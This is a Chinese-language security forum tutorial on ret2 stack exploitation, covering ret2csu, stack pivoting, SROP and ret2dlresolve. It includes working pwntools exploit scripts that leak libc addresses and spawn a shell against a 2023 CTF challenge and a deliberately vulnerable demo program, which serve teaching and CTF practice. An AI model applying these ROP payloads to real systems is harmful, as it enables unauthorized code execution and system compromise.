


# 栈攻击利用之 ret2 系列（二） - 先知社区

栈攻击利用之 ret2 系列（二）

- - -

# 栈利用之 ret2 系列（二）

前面一篇文章介绍了一些比较简单的劫持返回地址的技巧，利用方式较为简单，payload 的构造也是短小精悍，这一期我们来看一些较为复杂的 ret2 利用方式

## 1.ret2csu

### 条件

前面的 ret2 利用方式中很大一部分是调用的函数参数较少，而一般的 gcc 编译之后程序自带的函数中通常都有 `pop rdi;ret` 和 `pop rsi;ret` 等 gadget，可以很方便的调用那些简单的，参数少的函数，但是正常程序中往往没有直接的 `pop rdx;ret` 的 gadget，导致了我们好像没办法随意的控制第三个参数寄存器，对于常用的 read、write、execve 这类的三参数函数不能很好的劫持运行。

假如此时有一个程序有栈溢出，但是它的输出函数是 write 而不是 puts，我们没办法控制 write 的第三个参数，也就是输入长度，导致可能没办法进行泄露 libc 地址的操作，那么我们用什么方法进行漏洞利用呢？

这时就需要利用到程序自动加载的函数\_\_libc\_csu\_init 了，通过 ida 的反编译我们可以找到函数中有这么两段汇编代码：

```plain
.text:0000000000401250 4C 89 F2                      mov     rdx, r14
.text:0000000000401253 4C 89 EE                      mov     rsi, r13
.text:0000000000401256 44 89 E7                      mov     edi, r12d
.text:0000000000401259 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401259
.text:000000000040125D 48 83 C3 01                   add     rbx, 1
.text:0000000000401261 48 39 DD                      cmp     rbp, rbx
.text:0000000000401264 75 EA                         jnz     short loc_401250
```

```plain
.text:000000000040126A 5B                            pop     rbx
.text:000000000040126B 5D                            pop     rbp
.text:000000000040126C 41 5C                         pop     r12
.text:000000000040126E 41 5D                         pop     r13
.text:0000000000401270 41 5E                         pop     r14
.text:0000000000401272 41 5F                         pop     r15
.text:0000000000401274 C3                            retn
```

把每段都单拎出来似乎都没什么能用的，但是，如果将他们合在一起呢？

### 利用

首先是下面这段 gadget

```plain
.text:000000000040126A 5B                            pop     rbx
.text:000000000040126B 5D                            pop     rbp
.text:000000000040126C 41 5C                         pop     r12
.text:000000000040126E 41 5D                         pop     r13
.text:0000000000401270 41 5E                         pop     r14
.text:0000000000401272 41 5F                         pop     r15
.text:0000000000401274 C3                            retn
```

很简单，就是依次从栈中弹出值来赋值给对应寄存器

能控制 rbx、rbp、r12、r13、r14、r15 寄存器

再看下面这段汇编

```plain
.text:0000000000401250 4C 89 F2                      mov     rdx, r14
.text:0000000000401253 4C 89 EE                      mov     rsi, r13
.text:0000000000401256 44 89 E7                      mov     edi, r12d
.text:0000000000401259 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401259
.text:000000000040125D 48 83 C3 01                   add     rbx, 1
.text:0000000000401261 48 39 DD                      cmp     rbp, rbx
.text:0000000000401264 75 EA                         jnz     short loc_401250
```

将 r14、r13、r12 寄存器中的值分别赋值给 rdx、rsi、rdi，然后执行 r15+rbx\*8 这个地址的函数

结合上面，是不是看出了什么？

对了，可以利用这两个 gadget 来进行一个任意存在的函数调用

r12 对应 edi、r13 对应 rsi、r14 对应 rdx，r15 和 rbx 对应要调用的函数地址、rbp 赋值成 1 即可

可以构造 payload 函数：

```plain
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call() 注意是用函数 got 表 call！！
    # rdi=edi=r12
    # rsi=r13
    # rdx=r14
    # csu(0, 1, rdi, rsi, rdx, fun_got, last)
    payload = b""
    payload += p64(csu_end_addr) # pop rbx,rbp,r12,r13,r14,r15
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)#call
    payload += b'\x00' * 0x38#csu后的汇编指令跳转   
    payload += p64(last)    
    return payload
```

ps：编译的 libc 版本不同各寄存器的对应关系也会不同，具体要看程序中该函数的构成。

### 例题：2023 极客大挑战 ret2libc

ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  write(1, "try this\n", 9uLL);
  vuln();
  write(1, "bye ~", 5uLL);
  return 0;
}
```

```plain
size_t vuln()
{
  size_t result; // rax
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  write(1, "This challenge no backdoor!", 0x1BuLL);
  gets(s);
  result = strlen(s);
  if ( result > 0x10 )
  {
    write(1, "may you can pass it right?", 0x1AuLL);
    exit(1);
  }
  return result;
}
```

非常直白的一道题，只有一个 strlen 对我们的垃圾数据做了检测，只要用\\x00 绕过即可

那么我们的思路就是利用 ret2csu 调用 write 函数来泄露真实地址，进而进行 ret2libc 的过程

csu 函数

```plain
.text:0000000000401310                               loc_401310:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401310 4C 89 F2                      mov     rdx, r14
.text:0000000000401313 4C 89 EE                      mov     rsi, r13
.text:0000000000401316 44 89 E7                      mov     edi, r12d
.text:0000000000401319 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401319
.text:000000000040131D 48 83 C3 01                   add     rbx, 1
.text:0000000000401321 48 39 DD                      cmp     rbp, rbx
.text:0000000000401324 75 EA                         jnz     short loc_401310
.text:0000000000401324
.text:0000000000401326
.text:0000000000401326                               loc_401326:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401326 48 83 C4 08                   add     rsp, 8
.text:000000000040132A 5B                            pop     rbx
.text:000000000040132B 5D                            pop     rbp
.text:000000000040132C 41 5C                         pop     r12
.text:000000000040132E 41 5D                         pop     r13
.text:0000000000401330 41 5E                         pop     r14
.text:0000000000401332 41 5F                         pop     r15
.text:0000000000401334 C3                            retn
```

脚本如下：

```plain
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./chal')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload1)

write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
gdb.attach(io)
pause()
io.sendlineafter('backdoor!',payload2)

io.interactive()
```

运行效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162339-613d835e-b836-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162343-63bbb088-b836-1.png)

## 2.stack pivoting

这种攻击方式比较特别，一般而言，我们劫持返回地址是要用栈溢出等方式修改返回地址，而 stack pivoting（又称栈迁移）的攻击方式是改变 rsp、rbp 寄存器中的地址来达到将栈的位置迁移到一块我们能控制的内存区域，此时如果将此栈的返回地址恰好迁移到了我们在该内存区域中的写入的某些函数执行，这样我们就能在这个新栈中实现劫持返回地址了

### 利用姿势

还记得我们上一篇中讲的栈和函数么，其中我提到了 `leave;ret` 这段汇编代码，它的效果等同于

```plain
leave == mov esp,ebp; pop ebp;
ret == pop eip
```

可以看到，触发 leave 时先把 ebp 的值赋给 esp，然后会在栈底最后一个 4/8 字节弹出一个值赋值给 rbp，随后就是返回地址赋值给 eip，一般而言在栈底的地址都是一段栈地址，但是如果有栈溢出的时候，我们就能在栈底修改要 pop ebp 和 eip 的值，将 ebp 修改为一个可控地址（一般是.bss 段）。

但是这样是不够的，因为最重要的 rsp 并没有能控制，如果再进行一次函数开头的汇编码

```plain
push    rbp
mov     rbp, rsp
```

修改后的 rbp 被压栈了，也就没用了，所以我们需要再来一次 `leave; ret` 和劫持 rbp，此时我们可以劫持到离 leave;ret 最近的上一个溢出函数处。

例如

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162356-6b46d47c-b836-1.png)

此时我们劫持返回地址回到 0x4011ea 处，进行一次栈溢出，同样将栈底修改为另一个合法可控地址

此时再次触发

```plain
leave == mov esp,ebp; pop ebp;
ret == pop eip
```

那么 ebp 在第一次我们以及改成了一个.bss 段地址，此时 mov 给了 esp，然后又从栈底 pop 了一个我们构造好的.bss 段地址，此时我们就能发现成功将 esp 和 ebp 迁移到.bss 段上了

### demo

```plain
#include<stdio.h>
#include<stdlib.h>


void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}

int main()
{
init();
char a[0x30];
puts("hello stack pivoting!");
read(0,a,0x40);
    return 0;
}
```

```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

分析此程序可以发现虽然此题有栈溢出，但是只溢出了 0x10 字节，利用 ret2libc 技巧会发现溢出量不够用来构造出输出函数和控制参数，在这里我们就可以利用 stack pivoting 的技巧来进行攻击

首先确定好要迁移的位置，这里我用 pwntools 的 ELF 解析模块自动找到 bss 段中的一部分

```plain
elf = ELF('./text')
bss=elf.bss()+0x100
```

然后构造 payload

第一次迁移

```plain
payload1=垃圾数据（len=变量距离栈底长度）+ 迁移到的地址+read 重复读取
```

带入得到

```plain
read = 0x4011DF
bss=elf.bss()+0x100
payload1 = b'a'*0x30+p64(bss)+p64(read)
```

第二次迁移

此时我们再次输入的值是 ebp 的，根据小端序，ebp 的值大于 esp，那么我们可以按照原栈大小调整 ebp

```plain
read = 0x4011EA
bss=elf.bss()+0x100
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
```

然后分两次 send 输入即可

运行效果：

第一次 leave

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162403-6f4ce278-b836-1.png)

第二次 leave

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162408-72d0f74a-b836-1.png)

可以看到 rbp 和 rsp 都被迁移到了.bss 段上，此时在后面再返回一次 read，我们就能发现可以直接改 rbp 之后的返回地址了

第三次泄露

```plain
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload3)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121162420-79cdfd90-b836-1.png)

接下来再用一次上面的三个步骤即可在最后的 payload3 进行控制参数任意函数（伪）执行了

### 有一些注意的点：

当栈迁移到 bss 段后，有一些函数加载的临时变量可能无法正常加载到新的栈上，所以在返回到主函数运行时报错就需要重新寻找适合的，能够进行再次溢出的位置作为返回地址

这类函数包括但不限于：system，execve，printf，seccomp 等等

所以在以上的返回中我们如果想返回一个 shell，就需要利用工具 `one_gadget`（后面再开一章讲解工具安装和使用）查找 libc 中的能直接调用系统调用 execve("/bin/sh",0,0) 的 gadget 偏移

上面 demo 程序在 `libc2.31ubuntu9.9` 的 one\_gadget 如下

```plain
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

最终以上 demo 在 `libc2.31ubuntu9.9` 下的利用脚本如下

```plain
from pwn import*
context(arch='amd64',log_level='debug')
io = process('./stp')
elf = ELF('./stp')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context(arch='amd64',log_level='debug')
read = 0x4011DF
bss=elf.bss()+0x100
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload1 = b'a'*0x30+p64(bss)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload1)
io.send(payload2)
io.send(payload3)
puts_real_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
r12 = libc_base+0x2f709
ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[0]
payload1 = b'a'*0x30+p64(bss+0x100)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x130)+p64(read)
payload3 = p64(bss+0x140)+p64(r12)+p64(0)+p64(og)
io.send(payload1)
io.send(payload2)
io.send(payload3)
io.interactive()
```

## 3.SROP

之前写过一次，随便提一嘴

其实就是一个叫 sigreturn 的系统调用的利用，整体来讲其实就是 ret2syscall 的变种，不过原理会更加复杂些

之前写的文章链接： [SROP](https://xz.aliyun.com/t/13198)

## 4.ret2dlresolve

这部分利用我只能讲出原理，利用的话可以看看这位师傅的文章：（没咋碰见过。。）

[ret2dlresolve 超详细教程 (x86&x64)-CSDN 博客](https://blog.csdn.net/qq_51868336/article/details/114644569)

具体而言就是 got 和 plt 表的延迟绑定机制

在调用函数 plt 表后，程序会使用函数\_dl\_runtime\_resolve(link\_map,reloc\_offset) 来对动态链接的函数进行重定位

这个函数会完成符号的解析，即将真实的 write 函数地址写入其 GOT 表对应的条目中，随后将控制器交给被解析的函数

这个攻击的目的，就是劫持程序对于符号的解析过程，让程序把原函数解析成我们想要执行函数及对应参数

### 应用范围：

程序中无输出函数，并且未开启 full relro

## 总结

本期我介绍的是更加复杂的 ret2 应用，是很多给了限制条件的程序的攻击良方，希望对想要深入学习二进制漏洞利用的师傅们有帮助
